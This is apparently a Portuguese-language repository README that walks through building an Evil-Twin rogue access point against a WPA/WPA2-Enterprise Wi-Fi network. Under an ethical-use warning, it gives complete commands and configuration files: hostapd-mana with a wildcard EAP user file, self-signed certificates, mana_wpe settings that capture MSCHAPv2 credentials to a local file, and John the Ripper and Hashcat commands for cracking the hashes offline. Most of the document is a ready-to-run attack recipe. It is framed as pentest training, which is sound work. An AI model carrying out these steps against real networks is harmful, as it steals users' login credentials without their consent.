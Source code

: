 # Criação de um Evil-Twin em Rede WPA-Enterprise

Este repositório documenta o processo de criação de um ataque *Evil-Twin* em uma rede Wi-Fi com segurança WPA/WPA2-Enterprise. O objetivo é demonstrar as vulnerabilidades e ajudar profissionais de segurança a entender e mitigar esse tipo de ameaça.

> [\!WARNING]
> **AVISO DE USO ÉTICO**
> As informações e os comandos aqui apresentados devem ser utilizados **exclusivamente em ambientes de teste controlados e autorizados (laboratórios de pentest)**. A utilização dessas técnicas em redes sem permissão explícita é ilegal e antiética. O autor não se responsabiliza pelo mau uso deste material.

## O que é um Evil-Twin em WPA-Enterprise?

Um ataque *Evil-Twin* consiste em criar um ponto de acesso (AP) falso com o mesmo nome (SSID) de uma rede legítima. No contexto de WPA-Enterprise, que usa autenticação 802.1X/EAP em vez de uma senha compartilhada (PSK), o objetivo é enganar os usuários para que se conectem ao AP malicioso. Uma vez conectados, o atacante pode interceptar o processo de autenticação para capturar credenciais, geralmente na forma de hashes (MSCHAPv2), que podem ser quebrados offline.

## Pré-requisitos

  * Uma distribuição Linux para pentest (ex: Kali Linux).
  * Uma placa de rede sem fio que suporte o modo monitor e injeção de pacotes.
  * `aircrack-ng` suite.
  * `hostapd-mana` instalado.
  * `openssl` para geração de certificados.
  * Ferramentas de quebra de senha como `John the Ripper` ou `Hashcat`.

-----

## Passo a Passo

### 1\. Preparar a Interface de Rede

Primeiro, identifique o nome da sua interface de rede sem fio e coloque-a em modo monitor.

```bash
# Ver os parâmetros da interface de rede (ex: wlan0)
iwconfig
```

```bash
# Colocar a interface em modo monitor
sudo airmon-ng start wlan0
# Isso criará uma nova interface, geralmente chamada wlan0mon
```

### 2\. Instalar o Hostapd-mana

`hostapd-mana` é uma versão modificada do `hostapd` projetada para ataques de Wi-Fi, incluindo a capacidade de atuar como um servidor EAP malicioso.

```bash
sudo apt update
sudo apt install hostapd-mana
```

### 3\. Gerar Certificados e Chaves para o Servidor TLS

Para que o servidor EAP funcione, ele precisa de certificados para estabelecer um túnel TLS com os clientes. Vamos gerar um conjunto de certificados autoassinados.

```bash
# 1. Gera uma chave privada RSA para o servidor.
# Esta é a peça secreta que prova a identidade do servidor.
openssl genrsa -out server.key 2048

# 2. Gera uma Certificate Signing Request (CSR).
# Contém a chave pública e informações que seriam assinadas por uma autoridade certificadora.
openssl req -new -sha256 -key server.key -out csr.csr

# 3. Cria um certificado autoassinado (X.509) a partir do CSR e da chave privada.
# Em laboratórios, é comum usar certificados autoassinados para simular um servidor TLS.
openssl req -x509 -sha256 -days 365 -key server.key -in csr.csr -out server.pem

# 4. Gera parâmetros Diffie-Hellman para a troca segura de chaves.
openssl dhparam 2048 > dhparam.pem

# 5. Cria um link simbólico de server.pem para ca.pem.
# Em algumas configurações, o servidor precisa de um arquivo ca.pem como autoridade certificadora.
ln -s server.pem ca.pem
```

### 4\. Criar Arquivo de Configuração EAP

Este arquivo define os tipos de autenticação EAP que o nosso servidor falso irá aceitar e as credenciais que ele pode reconhecer.

```bash
# Crie e edite o arquivo de usuários EAP
sudo nano hostapd.eap_user
```

Cole o seguinte conteúdo no arquivo. A primeira linha com `*` é um *wildcard* que aceita qualquer identidade de usuário e tenta os métodos listados. A segunda linha é um exemplo de usuário específico.

```ini
* PEAP,TTLS,TLS,MD5,GTC
"t" TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP "1234test" [2]
```

### 5\. Criar Arquivo de Configuração do Ponto de Acesso Falso

Este é o arquivo principal que define todos os parâmetros do nosso *Evil-Twin*.

```bash
# Crie e edite o arquivo de configuração do AP
sudo nano fakeap.conf
```

Cole e ajuste o conteúdo abaixo. **Altere os caminhos dos arquivos de certificado** para o diretório onde você os gerou (ex: `/home/kali/`).

```ini
# Indica a interface de rede que será utilizada (em modo monitor)
interface=wlan0mon

# Indica o SSID que será anunciado (use o nome da rede alvo)
ssid=NOME-DA-REDE-ALVO

# Define a família de modulação (g = 802.11g)
hw_mode=g

# Canal em que será anunciado o SSID
channel=6

# Driver de comunicação com o kernel
driver=nl80211

# --- Configurações de Segurança WPA-Enterprise ---

# Habilita modos WPA/WPA2
wpa=3

# Indica que o gerenciamento de chaves é por EAP (Enterprise)
wpa_key_mgmt=WPA-EAP

# Cifras permitidas
wpa_pairwise=TKIP CCMP

# Habilita o padrão 802.1X
ieee8021x=1

# Indica que o AP atuará como servidor EAP
eap_server=1

# Aponta para o arquivo que descreve as identidades/credenciais EAP
eap_user_file=/home/kali/hostapd.eap_user

# Arquivo com o certificado da autoridade certificadora
ca_cert=/home/kali/ca.pem

# Certificado X.509 do servidor
server_cert=/home/kali/server.pem

# Chave privada correspondente ao certificado do servidor
private_key=/home/kali/server.key

# Parâmetros DH para a negociação TLS/EAP
dh_file=/home/kali/dhparam.pem

# --- Configurações Específicas do Mana ---

# Ativa a emulação de backends EAP para capturar credenciais
mana_wpe=1

# Registra as autenticações EAP bem-sucedidas
mana_eapsuccess=1

# Arquivo de saída onde as credenciais capturadas são armazenadas
mana_credout=hostapd.creds
```

### 6\. Executar o Ataque

Com todos os arquivos de configuração prontos, inicie o `hostapd-mana`.

```bash
sudo hostapd-mana fakeap.conf
```

O terminal exibirá os logs do ponto de acesso. Quando um cliente tentar se conectar, você verá as tentativas de autenticação e, se for bem-sucedido, as credenciais serão salvas no arquivo `hostapd.creds`.

### 7\. Coletar e Quebrar o Hash

Após capturar uma tentativa de autenticação (MSCHAPv2), o hash será salvo no formato `john` no arquivo `hostapd.creds`.

```bash
# Visualize o hash capturado
cat hostapd.creds
```

O hash terá um formato similar a: `user::$DOMAIN:LM_HASH:NT_HASH:challenge`.

Copie a linha inteira do hash e salve-a em um novo arquivo.

```bash
# Salve o hash para ser quebrado
nano hash.txt
```

Agora, use `John the Ripper` ou `Hashcat` para quebrar o hash usando uma *wordlist*.

**Usando John the Ripper:**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Usando Hashcat:**

O modo `-m 5500` é para NetNTLMv1, que é o formato do hash MSCHAPv2.

```bash
hashcat -m 5500 hash.txt /usr/share/wordlists/rockyou.txt -O
```

Se a senha do usuário estiver na *wordlist*, a ferramenta a encontrará e a exibirá no terminal.
